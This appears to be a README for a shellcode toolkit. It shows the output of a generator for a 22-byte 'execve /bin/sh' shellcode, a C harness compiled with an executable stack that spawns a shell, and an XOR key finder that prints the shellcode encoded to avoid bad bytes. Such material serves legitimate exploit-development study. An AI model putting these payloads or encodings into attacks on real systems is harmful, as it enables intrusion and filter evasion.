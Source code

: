 # Usage

## The shellcode python generator

It uses the simplest "execve /bin/sh" shellcode by default

```bash
python3 generate_shellcode.py

Shellcode: b'1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05'
Shellcode HEX: 31f65648bb2f62696e2f2f736853545ff7eeb03b0f05
Raw Shellcode: \x31\xf6\x56\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xf7\xee\xb0\x3b\x0f\x05
Shellcode Length: 22 bytes
```

## The C payload tester

### Compilation
`gcc -o test_payload test_payload.c -z execstack`

### Run
```bash
./test_payload               

$ id
uid=1000(xtk)...
```

## The XOR key finder

This script helps to avoid specified badbytes by static XOR key encoding. 
It looks for appropriate XOR key to fit specified badbytes

```bash
$ python3 xor_key_finder.py

Found valid XOR key: 0x0d
Encoded shellcode:
\x3c\xfb\x5b\x45\xb6\x22\x6f\x64\x63\x22\x22\x7e\x65\x5e\x59\x52\xfa\xe3\xbd\x36\x02\x08
0x3c,0xfb,0x5b,0x45,0xb6,0x22,0x6f,0x64,0x63,0x22,0x22,0x7e,0x65,0x5e,0x59,0x52,0xfa,0xe3,0xbd,0x36,0x02,0x08
3cfb5b45b6226f646322227e655e5952fae3bd360208

Found valid XOR key: 0x10
Encoded shellcode:
\x21\xe6\x46\x58\xab\x3f\x72\x79\x7e\x3f\x3f\x63\x78\x43\x44\x4f\xe7\xfe\xa0\x2b\x1f\x15
0x21,0xe6,0x46,0x58,0xab,0x3f,0x72,0x79,0x7e,0x3f,0x3f,0x63,0x78,0x43,0x44,0x4f,0xe7,0xfe,0xa0,0x2b,0x1f,0x15
21e64658ab3f72797e3f3f637843444fe7fea02b1f15

Found valid XOR key: 0x13
Encoded shellcode:
\x22\xe5\x45\x5b\xa8\x3c\x71\x7a\x7d\x3c\x3c\x60\x7b\x40\x47\x4c\xe4\xfd\xa3\x28\x1c\x16
0x22,0xe5,0x45,0x5b,0xa8,0x3c,0x71,0x7a,0x7d,0x3c,0x3c,0x60,0x7b,0x40,0x47,0x4c,0xe4,0xfd,0xa3,0x28,0x1c,0x16
22e5455ba83c717a7d3c3c607b40474ce4fda3281c16

Found valid XOR key: 0x16
Encoded shellcode:
\x27\xe0\x40\x5e\xad\x39\x74\x7f\x78\x39\x39\x65\x7e\x45\x42\x49\xe1\xf8\xa6\x2d\x19\x13
0x27,0xe0,0x40,0x5e,0xad,0x39,0x74,0x7f,0x78,0x39,0x39,0x65,0x7e,0x45,0x42,0x49,0xe1,0xf8,0xa6,0x2d,0x19,0x13
27e0405ead39747f783939657e454249e1f8a62d1913
...
```
